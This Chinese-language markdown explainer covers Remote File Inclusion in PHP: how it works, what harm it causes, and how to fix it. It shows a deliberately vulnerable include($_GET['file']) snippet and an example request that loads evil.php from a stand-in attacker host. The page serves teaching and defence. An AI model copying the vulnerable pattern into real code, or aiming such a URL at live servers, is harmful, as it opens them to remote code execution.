 # Remote File Inclusion

> Remote File Inclusion（RFI，遠程文件包含）是一種嚴重的網頁應用漏洞，攻擊者可以利用此漏洞讓應用程式包含並執行來自遠端伺服器的惡意程式碼文件[1][2]。

## RFI 的運作原理

- 當應用程式動態包含檔案時，若直接使用使用者輸入的檔案路徑且未做適當驗證，攻擊者可提供一個遠端 URL 作為參數。
- 伺服器會從該遠端 URL 載入並執行該檔案中的程式碼，通常是攻擊者控制的惡意腳本。
- 例如 PHP 程式碼中：
  ```php
  $file = $_GET['file'];
  include($file);
  ```
  攻擊者可透過`http://example.com/?file=http://attacker.com/evil.php`讓伺服器執行惡意程式碼[2][5]。

## 可能造成的危害

- 遠端程式碼執行（RCE），攻擊者可完全控制伺服器。
- 敏感資料洩漏。
- 進一步發動跨站腳本攻擊（XSS）、拒絕服務（DoS）等。
- 系統全面妥協，造成嚴重安全事件[1][2][5]。

## 常見發生環境

- 多見於舊版本 PHP 應用，且`allow_url_include`設定為開啟。
- 其他語言或平台如 JSP、ASP 也可能存在類似漏洞[1][5]。

## 防範與修復建議

- **禁止遠端文件包含**：關閉 PHP 設定中的`allow_url_include`。
- **避免直接使用使用者輸入作為包含路徑**，改用固定路徑或預先定義的白名單。
- **使用白名單機制**，只允許包含可信的本地文件。
- **嚴格驗證與過濾輸入**，避免注入惡意 URL。
- **定期使用自動化掃描工具檢測 RFI 漏洞**，及早發現並修補[2][5]。

---

總結來說，Insecure Remote File Include（不安全的遠程文件包含）是一種因未妥善驗證使用者輸入導致攻擊者能將遠端惡意程式碼注入並執行的漏洞，嚴重時可導致系統全面被攻陷。透過關閉遠程包含功能、使用白名單及嚴格輸入驗證是防範此漏洞的關鍵措施。

---

**參考來源:**

[1] https://www.invicti.com/learn/remote-file-inclusion-rfi/ \
[2] https://www.acunetix.com/blog/articles/remote-file-inclusion-rfi/ \
[3] https://ithelp.ithome.com.tw/m/articles/10270171 \
[4] https://www.spanning.com/blog/file-inclusion-vulnerabilities-lfi-rfi-web-based-application-security-part-9/ \
[5] https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion \
[6] https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_File_Inclusion \
[7] https://www.cnblogs.com/LittleHann/p/3665062.html \
[8] https://zerothreat.ai/blog/remote-file-inclusion-the-security-threat-you-might-be-ignoring

---

[返回目錄](./../README.md)
